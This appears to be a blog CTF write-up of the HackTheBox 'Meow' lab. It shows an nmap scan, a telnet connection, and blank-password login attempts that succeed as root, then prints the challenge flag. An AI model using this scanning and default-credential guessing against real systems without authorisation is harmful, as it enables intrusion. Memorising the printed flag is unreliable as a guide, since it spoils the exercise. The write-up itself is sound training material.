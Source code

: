 ```yaml
---
title: HackTheBox - Meow
date: 2023-12-24 05:44:00 +0700
categories:
  - HackTheBox
  - Starting Point
tags:
  - misc
  - telnet
  - very_easy
  - hackthebox
image:
  path: /assets/img/hackthebox/starting_points/Meow.png
  alt: Meow - HackTheBox
---
```


[**Meow**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Meow we will learn about **Telnet**.

## Introduction

- Connect **Meow** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After connect with Meow, then `ping` Target IP.

```bash
❯ ping 10.129.49.190

PING 10.129.49.190 (10.129.49.190) 56(84) bytes of data.
64 bytes from 10.129.49.190: icmp_seq=1 ttl=63 time=778 ms
64 bytes from 10.129.49.190: icmp_seq=2 ttl=63 time=353 ms
64 bytes from 10.129.49.190: icmp_seq=3 ttl=63 time=255 ms
64 bytes from 10.129.49.190: icmp_seq=4 ttl=63 time=566 ms
64 bytes from 10.129.49.190: icmp_seq=5 ttl=63 time=225 ms

--- 10.129.49.190 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4002ms
rtt min/avg/max/mdev = 224.682/435.502/778.336/208.966 ms
```

### Nmap

Scan all open port of target with `nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port. 

```bash
❯ nmap -sCV 10.129.49.190

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-24 07:18 WIB
Nmap scan report for JSN.JaringanKU (10.129.49.190)
Host is up (1.2s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 170.93 seconds
```

You can see that the open port at `23/tcp` is for the **Telnet** service.

```bash
❯ telnet 10.129.49.190

Trying 10.129.49.190...
Connected to 10.129.49.190.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
```

## Foothold

We can try login without password using usernames bellow :
- admin
- administrator
- root

```bash
Meow login: admin
Password: 

Login incorrect
Meow login: administrator
Password: 

Login incorrect
meow login: 
```

### Telnet

Last try we can use root username.

```bash
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 24 Dec 2023 12:32:04 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.49.190
  IPv6 address for eth0: dead:beef::250:56ff:fe96:4e0a

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0

root@Meow:~#
```

Once we get into Telnet from the target, let's look for the flag.

```bash
root@Meow:~# ls
flag.txt  snap

root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```